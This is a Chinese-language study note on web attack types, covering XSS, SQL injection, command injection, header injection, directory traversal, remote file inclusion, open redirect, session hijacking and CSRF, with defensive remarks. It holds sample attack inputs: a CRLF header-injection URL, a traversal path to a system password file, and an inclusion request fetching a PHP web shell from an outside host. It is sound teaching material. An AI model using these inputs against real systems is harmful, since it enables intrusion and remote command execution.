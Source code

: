 ### web攻击模式
#### 1、 主动攻击
主动攻击是指攻击者通过直接访问Web应用，把攻击代码传入的攻击模式。该攻击针对服务器上的资源，因此前提是要攻击者能够访问服务器上的资源。常见的有sql注入攻击和OS命令注入攻击。
#### 2、 被动攻击
指攻击者设计圈套诱导用户触发攻击动作，从而利用用户的操作已经身份对web服务器发动间接的攻击。

具体步骤：
1、诱导用户触发已经设置好的陷阱，而陷阱启动发送已嵌入攻击代码的HTTP请求。
2、当用户掉入设计的陷阱后，他的浏览器或邮件客户端就会触发这个陷阱。
3、浏览器发送含有攻击代码的HTTP请求到web服务器，运行攻击代码。
4、执行攻击代码后，可能会导致用户重要的Cookie以及其他个人信息重要被窃。最典型的攻击模式就是跨站脚本攻击和跨站点请求伪造。

![image](http://p2w3pqeze.bkt.clouddn.com//TuJieHttp/11-1.png)


### 输出转义不完全的攻击方式
- 客户端验证
- 服务端验证
  - 输入值的验证
  - 输出值的转义
  
虽然可以用JavaScript在客户端进行校验，但是客户端的校验不适合作为安全防范的对策，而仅仅是起到提高UI体验的作用。  

Web 应用端输入值验证通常是指检查是否是符合系统业
务逻辑的数值或检查字符编码等预防对策。
从数据库或文件系统、HTML、邮件等输出Web 应用处理的数据之际,针对输出做值转义处理是一项至关重要的安全策略。当输出值转义不完全时，会因触发攻击者传人的攻击代码，而给输出对象带来损害。

#### 利用该漏洞的攻击方式

1、 跨站脚本攻击（XSS）
跨站脚本攻击( Cross-Site Scripting,XSS) 是指通过存在安全漏洞的Web 网站注册用户的浏览器内运行非法的HTML 标签或JavaScript进行的一种攻击。动态创建的HTML 部分有可能隐藏着安全漏洞。
影响点。

- 利用虚假输入表单骗取用户的个人信息。
- 利用非法脚本盗取用户的Cookie值，从而伪造身份，执行恶意的操作。
- 显示虚假信息。


2、Sql注入攻击
在web请求中加入攻击代码，导致web应用程序执行那段恶意的sql语句。该攻击直接威胁到数据库，会导致个人信息的泄露、篡改等安全问题。
影响点
- 非法查看或篡改数据库内的数据
- 规避认证（如用户登录验证）
- 执行和数据库服务器业务相关的程序

利用用户的输入且不执行相关的转义操作，直接把输入的值当做查询条件写入sql语句中，就会出现sql注入攻击的安全漏洞。

3、OS命令注入攻击

	通过HTTP请求在web服务器执行非法的操作系统命令。通常就是让web服务器执行非法的shell脚本操作，来达到攻击的目的。

4、http首部注入攻击
	
	攻击者在http响应首部字段内插入换行符，并且添加任意的响应字段或主体，属于被动攻击。

方式：
url后添加换行符（%0D%0A）伪造字段名：字段值 来达到攻击的效果。

访问http://www.exampel.com/?id=2
```
location:http://www.exampel.com/?id=2
```
访问攻击url http://www.exampel.com/?id=2%0D%0ASet-Cookie:+UID=1234
```
location:http://www.exampel.com/?id=2
Set-Cookie: UID=1234
```
当然也可以影响显示的主体
url http://www.exampel.com/?id=2%0D%0ASet-Cookie:+UID=1234%0D%0%0D%0<html>尼玛</html><!--
```
location:http://www.exampel.com/?id=2
Set-Cookie: UID=1234
%0D%0A
<html>尼玛</html><!--(原来的页面就被注释掉了)
```
影响点
	
- 设置任何Cookie信息
- 重定向到任意url
- 显示任意的主体

5、邮件首部注入攻击

6、目录遍历攻击

对服务器上原本不公开的目录进行非法访问，通常的做法就是利用url中的相对路径去恶意访问机密文件。
合法访问的文件
```
http://example.com/read.php?logo=001.png
```
非法访问
```
http://example.com/read.php?logo=../../etc/password
```
7、远程文件包含攻击
远程文件包含漏洞是指当部分脚本内容需要从其他文件读入时，攻击者利用指定外部服务器的URL 充当依赖文
件，让脚本读取之后，就可运行任意脚本的一种攻击。

攻击请求
```
http://example.com/read.php?mod=http://nima.com/cmd.php.cmd=ls
```
然后在自己的服务器上准备了一段攻击代码
```
<? system($_GET['cmd]) ?> 
```
这样攻击者就可以在自己的服务器上对目标服务器执行指定的OS命令了。


### 因web设置或者设计上的一些缺陷引发的安全问题

#### 强制浏览
对一些非公开的文件（涉及到权限的），通过非法的手段进行浏览。
造成的影响

- 泄露用户个人重要的信息
- 泄露原本需要访问权限才可以查阅的信息内容
- 泄露未公开的文件


#### 不正确的消息处理

1、Web应用抛出的错误消息
 举例说明：
 登录界面用户输入账号密码没有通过验证时，不需要做在输入账号有误时提示『帐号不存在』，帐号正确而密码错误时提示『密码不正确』等，而是统一提示『密码不正确』。不然会暴露给攻击者暴露太多的信息，增加账号被盗的风险。

2、数据库等系统抛出的错误消息
执行查询时，sql报错，直接将报错信息显示到界面上，这样就可能暴露数据库以及查询脚本的信息。

3、开放重定向

开放重定向是一种对指定的任意URL 作重定向跳转的功能。而于此功能相关联的安全漏洞是指，假如指定的重定向URL到某个具有恶意的Web网站,那么用户就会被诱导至那个Web网站。

```
//正常的重定向
http://taobao.com?redirect=http://www.tmail.com

//攻击者篡改的重定向
http://taobao.com?redirect=http://www.nima.com
```

### 因session管理疏忽引发的安全漏洞
session是用来管理用户的状态的必备功能，如果出现漏洞，就会导致用户的认证状态被窃取。

#### session劫持

攻击者通过某种方式拿到了用户的session ID,并用其伪装成用户，做一些非法的操作从而达到攻击的目的。session ID 中记录客户端的Cookies等信息，服务端会将Session ID 与认证状态进行一对一匹配管理。

攻击者获得session ID 的方式
- 通过非正规的方法推测session ID
- 通过窃听或XSS攻击盗取Session ID
- 通过会话固定攻击强行获取Session ID

攻击案例图：

![image](http://p2w3pqeze.bkt.clouddn.com//TuJieHttp/11-2.png)


#### session 固定攻击
强制用户使用攻击者指定的session ID, 属于被动攻击。
案例图：
![image](http://p2w3pqeze.bkt.clouddn.com//TuJieHttp/11-3.png)

#### 跨站点请求伪造
跨站点请求伪造( Cross-Site Request Forgeries,CSRF) 攻击是指攻击者通过设置好的陷阱,强制对已完成认证的用户进行非预期的操作，属于被动攻击。

案例图：

![image](http://p2w3pqeze.bkt.clouddn.com//TuJieHttp/11-4.png)

当用通过的认证的用户访问含有攻击者部署恶意代码的留言网页后，会自动触发img标签中的http请求，执行评论操作，添加『你好』评论。